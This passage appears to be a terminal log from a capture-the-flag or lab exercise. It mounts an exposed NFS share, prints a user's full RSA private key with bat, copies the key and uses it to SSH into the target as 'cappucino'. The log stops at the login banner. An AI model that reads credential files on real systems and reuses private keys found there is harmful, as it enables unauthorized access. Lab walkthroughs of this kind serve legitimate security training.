 ```

6 directories, 9 files
```
/tmp/mount-nfs  cd cappucino
/tmp/mount-nfs/cappucino   bat .ssh/id_rsa
```
───────┬─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: .ssh/id_rsa
───────┼─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ -----BEGIN RSA PRIVATE KEY-----
   2   │ MIIEpQIBAAKCAQEA03JNcEu6K3LnfFYhiSjWMa4KxT4Q4KTh9uNxQaBBYHwnc7+1
   3   │ nFl4FICPhjz8kLHmz826wDGU/x46RJno7l1n0Y4y5VTOX/oaGpTdmmbfUwGYvOPu
   4   │ 3Fj92rPoqu/RcFBNbrnqfpfajeinkMwtcOLBOpSak13P8km6JwBzELvKw2a2GL4N
   5   │ SMzskVW6PNTKiCgwOmFJT4WOivkkgXAnuR4PXt/TSkAgpN3KDCR1a1xDhkO8+zxE
   6   │ vpDP81rn2PD40lmfeh/yG6wJ9sVlqm1g9IbozHABaTPhx1d8RDn0Cz6gVvsNtS6h
   7   │ yqBQazUtOOxreHunzRpabp3kAWf/Ao62fTR9hwIDAQABAoIBAQDRGQK9XxW+q8WB
   8   │ LofBZJHU1SCvhz4XeNZAWREB7eFY8c3t6BJHiC54T94eyKaWzGbM7syUDTQjyZej
   9   │ iXRQbCwjjfSE1wWy4df4m2g9rSeBpV2OxfTLEHIRWcJnb/r0j2TTb6UWBUNK/Fzg
  10   │ kxkIviSJsrTdsHLYTdJ5iTdAwAS2j0mjTSVfUOjeB8kSF6o+e73a2PYpsh8gzh7i
  11   │ Pj82ge1fXoA4Vkg+0Evv1ZoS3VDhJYhWfBrIr/l/JF52PPZfcELpl8ZCkAnXIL9M
  12   │ bZomittLwudvtqTmADye2LhPu59vnz8SRQYiCLj/ICxz+Zo5syPRc4tQKw91VYMe
  13   │ IWYQ+sG5AoGBAPj7v02GAhgp9v5yh/1VyAv0zRmSfbinyVeAywZELi2r93WMz2zL
  14   │ Be3Ys35tlNxvpCHZQO8X23oWeYXkOmIw4OYJcPwHN48QilV1JO1G6jW362oefH4L
  15   │ rHW/PXgW4Ur3/gMdSeiOtolT+Hz7weg+89begWkHSvSvDS6p9Jw8BE3dAoGBANln
  16   │ wEKg+YLJpzBzuTOzUle/K6vsCQl5wynMz80t2Ntu0SAmsx7itX7cPMfjjIYjVkx3
  17   │ kPA76EdZjI51fN0XKlJwUj7t//mj/VyO7iKdQkBiLfADDMmjawYk1hfFaAufTwSz
  18   │ pXEfEQBzR+iF2uHjDd8cRUkQjibcr67pAawuN3yzAoGBALz47bhcJojKiQGUUeyQ
  19   │ R9XzRhvLmIonJuS4Bt/JrbbSV24rol8zNFvSZmFlsF8iiNN7/hG57MWb+z4I+9r8
  20   │ uCVAMzXGEIAQEL5Nu+ovMaH15sJTQy+zkoCH1pKn4vSwhmU8vJS6hIZ0ahwKRKEN
  21   │ 7qo9lMDvXQ+bMQkiy1otHyMtAoGBALj6kBmhAeuITJrrO/+DamKCpFPpx16qnaXp
  22   │ QD4h7kv2pDUo+GslFqxUE9s3/476bikt6sKdFmvvA6sKyC0N0tLGAxTMSGpOX/rr
  23   │ Gi+VgpNpdhCrZ6wBQcS+fvNG4dpRuFgVyoTPnBW4AM0VZ0GfgWP+l+0tCuaCC3FV
  24   │ jDjGMiwFAoGAZeCCUXGze0dQpLsPK+phVf6mpYu9wD2EtNbj8ivGnEMMmuyTPxlW
  25   │ puGt3aJ1+8YqgfPu6QhE/VgroYLOpww8GxnFeMhMgeOuJG+OtgVVAYpgoSRgVTXS
  26   │ EGWF78kzFB6HSJBYnpr6LCFp8SRXKYeHEzR9upT30+F4RNaEJqvK6Ng=
  27   │ -----END RSA PRIVATE KEY-----
───────┴─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```
/tmp/mount-nfs/cappucino  cp .ssh/id_rsa \~/Documents/
/tmp/mount-nfs/cappucino  cd \~/Documents
~/Documents $  ls
```
 Books  'Cisco!'   DeffreusTheda  'Dream Logs'   id_rsa  'Learn RE'   Logs   SMAPDA  'THEDA TO ALL'
```
~/Documents $  cd /tmp/mount-nfs
/tmp/mount-nfs  bat $(fd -tf) #: search for user name: found: cappucino
/tmp/mount-nfs  cd \~/Documents
~/Documents $  ssh -i id_rsa cappucino@10.10.243.171
```
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu Jun 20 11:58:36 UTC 2024

  System load:  0.11              Processes:           103
  Usage of /:   45.2% of 9.78GB   Users logged in:     0
  Memory usage: 31%               IP address for eth0: 10.10.243.171
  Swap usage:   0%
```